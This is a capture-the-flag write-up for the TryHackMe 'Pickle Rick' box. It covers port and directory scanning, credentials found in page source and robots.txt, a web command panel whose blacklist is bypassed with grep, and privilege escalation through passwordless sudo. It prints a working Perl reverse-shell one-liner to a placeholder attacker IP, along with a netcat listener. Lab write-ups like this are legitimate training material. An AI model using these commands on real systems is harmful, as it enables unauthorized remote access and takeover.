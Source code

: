 ```yaml
---
title: 'Pickle Rick'
permalink: /writeups/2024/01/pickle-rick/
tags:
  - CTF
  - TryHackMe
  - Hacking
---
```


🚩

This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

Begin the box by setting up directory for project under ~/pickle-rick-ctf, also created a directory for nmap. at ~/pickle-rick-ctf/nmap. This is just to easily store and remove the information and files gathered during the CTF.

Using nmap we can begin gathering information about the target.

```bash
nmap -sV -sC -O $ip -oN nmap/initial
```

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-16 19:23 EDT
Nmap scan report for 10.10.178.231
Host is up (0.031s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 0b:eb:d9:e4:65:7d:72:1a:d0:a1:fd:c3:88:2c:ee:82 (RSA)
|   256 77:b4:2c:d4:88:15:ca:7f:d5:fb:2d:ec:d7:d5:41:37 (ECDSA)
|_  256 a5:7f:5f:33:47:d7:d8:f2:04:c3:7e:c8:8e:f6:89:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=10/16%OT=22%CT=1%CU=38185%PV=Y%DS=2%DC=I%G=Y%TM=652DC6
OS:17%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS=8)SE
OS:Q(SP=103%GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=8)SEQ(SP=104%GCD=1%ISR=10A%TI=Z
OS:%CI=I%TS=8)SEQ(SP=105%GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=8)OPS(O1=M508ST11N
OS:W7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST11NW7%O6=M508S
OS:T11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=4
OS:0%W=6903%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(
OS:R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%
OS:W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=
OS:)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%
OS:UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.95 seconds
```

First of all we can see the machine is running 2 ports. Port 22 & 80 indicating a http web server is running as well as OpenSSH on port 22.

We can begin to look at the site to see what is going on.

![](/images/pr1.png)

Site returns a page indicating that Rick needs help from Morty to turn himself back into a human. As he was a pickle, classic Rick.

By viewing the HTML source code we can see that rick has left a note that his username is R1ckRul3s - Now we know Ricks username but we don’t know what this username is for or the password.

Next I’m going to use nikto to attempt to try and find any outdated software versions or files/directories that could be exploited.

```bash
nikto -url $ip | nikto-output.log
```

![Untitled](/images/pr2.png)

Nikto showed us that the version of Apache appears to be out of date, there is a login page at /login.php and some other stuff.

Whilst nikto is doing it’s work I’m also going to user gobuster to try and find any hidden directories using a wordlist provided in /usr/share/wordlists.

```bash
gobuster -u $ip -w=/usr/share/wordlists/directory-list-1.0.txt -x php,sh,txt
```

Gobuster will brute force the directories and hopefully give us some results which we can use to find more information about the target machine.

![Untitled](/images/pr3.png)

Gobuster has given us a few pages to check out including the same login page shown by nikto as well as portal.php, ./php, an assets directory and finally robots.txt.

Opening robots.txt we can see some text this could be a password of some kind or just Rick being Rick.

Trying the combination of R1ckRul3s and REDACTED on the login.php page is correct and we have successfully logged into the admin panel.

![Untitled](/images/pr4.png)

Let’s try and explore the different pages to see if we can find anything interesting. All the links return a GIF screen indicating that only the real Rick can view these pages.

![Untitled](/images/pr5.png)

The commands section however has a blank box in which we can execute code and the return is shown back to us.

![Untitled](/images/pr6.png)

Running ls in the commands panel displays the files within the directory.

![Untitled](/images/pr7.png)

Using cat returns an error that the command is disabled to make it harder. This means we will have to find another way to view the files contents.

Using both head and tail is also forbidden so instead we can try other methods of displaying. One way is to use;

```bash
grep . Sup3rS3cretPickl3Ingred.txt
```

Grep is not disabled and returns the answer to the first clue in the CTF.

You could also try writing a script that echos the contents of the file line by line but grep is much cleaner in this situation.

We need to find a way to give us a more stable shell and not rely on the web interface to try and navigate the file system (This is possible and you can complete the challenge by doing so). To do this we can use a reverse shell.

We can try by using netcat but the string “cat” will be caught by the checking system used by the site to prevent the usage of cat. Using the shorthand nc also yields nothing.

Next we can try and use perl or python to try and return an output.

```bash
perl -e "print 'test'"
```

This time we get the output of “test” so we know we can use perl in some way to give us a reverse shell.

Using [https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) to give us a premade shell command to work with.

```bash
perl -e 'use Socket;$i="ATTACKER-IP";$p=LISTENING-PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

We can modify this command to insert our IP address and our chosen port to establish a connection.

```bash
nc -lvnp PORT
```

Let’s start a listener with netcat and set it listening on the same port you used for the command.

Now we can insert the script into the command panel and hopefully establish a reverse shell to make it easier to navigate the filesystem and get more answers.

![Untitled](/images/pr8.png)

Success!

Once in we can run the whoami command to see that we are user www-data. We can also see what permissions we have using the command;

```bash
sudo -l
```

This command shows us that we may run any command with no password required. This is fantastic news.

![Untitled](/images/pr9.png)

After snooping around in the file directory we can access the /home directory and see there are two users on the system. Ubuntu and Rick. Entering Ubuntu we see nothing in there. Going into Rick shows us a file named “second ingredients”.

```bash
cat "second ingredients"
```

Returns the second answer to our CTF.

Now we need to find the final ingredient to turn Rick back into a human.

Using the fact we can use any command with no password means we can view the root directory using the following command;

```bash
sudo ls /root/
```

This shows us the following;

![Untitled](/images/pr10.png)

This must be the third ingredient required.

```bash
sudo cat 3rd.txt
```

We get our final ingredient and finish our CTF adventure with Rick and Morty.
